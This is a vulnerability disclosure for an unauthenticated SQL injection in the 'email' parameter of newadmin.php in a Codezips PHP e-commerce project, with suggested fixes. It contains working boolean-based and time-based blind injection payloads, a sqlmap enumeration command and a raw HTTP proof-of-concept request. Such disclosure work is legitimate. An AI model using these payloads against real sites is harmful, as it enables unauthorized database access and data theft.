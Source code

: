 # Codezips E-commerce Site Using PHP With Source Code V1.0 newadmin.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- E-commerce Site Using PHP With Source Code

## Vendor Homepage

- https://codezips.com/php/e-commerce-site-using-php-with-source-code/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- `zhangjiale`

## Vendor

- `codezips`

## Vulnerable File

- `newadmin.php`

## VERSION(S)

- V1.0

## Software Link

- https://codeload.github.com/codezips/ecommerce-site-using-php/zip/master

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- Although there is control access, it does not prevent the code from continuing to execute

  <img src="./image/image-20241218171736003.png" style="zoom: 200%;" />

- A SQL injection vulnerability was found in the 'newadmin.php' file of  the 'E-commerce Site Using PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter  'email' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  <img src="./image/image-20241218171816147.png" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "E-commerce Site Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "newadmin.php" file. This vulnerability stems from insufficient  user input validation of the 'email' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'email' parameter

## Payload:

```
Parameter: email (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
Payload: first_name=qqqq&last_name=qqqqq&email=123@qqd.com' RLIKE (SELECT (CASE WHEN (2793=2793) THEN 0x313233407171642e636f6d ELSE 0x28 END))-- AVxO&mobile=2123&password=123&admintype=qqqq&signupaddress=12&signup=Sign Me Up!

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: first_name=qqqq&last_name=qqqqq&email=123@qqd.com' AND (SELECT 1160 FROM (SELECT(SLEEP(5)))wDez)-- YxAl&mobile=2123&password=123&admintype=qqqq&signupaddress=12&signup=Sign Me Up!
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py  -r url.txt -p email --current-db --current-user --is-dba
```

```
poc
POST /admin/newadmin.php HTTP/1.1
Host: 192.168.75.224
Content-Length: 115
Cache-Control: max-age=0
Origin: http://192.168.75.224
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.75.224/admin/newadmin.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=86k42l8aso8tibk6verjr20gc5
Connection: close

first_name=qqqq&last_name=qqqqq&email=123%40qqd.com&mobile=2123&password=123&admintype=qqqq&signupaddress=12&signup=Sign+Me+Up%21
```

<img src="./image/4.png" style="zoom:150%;" />

## Suggested fixes

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.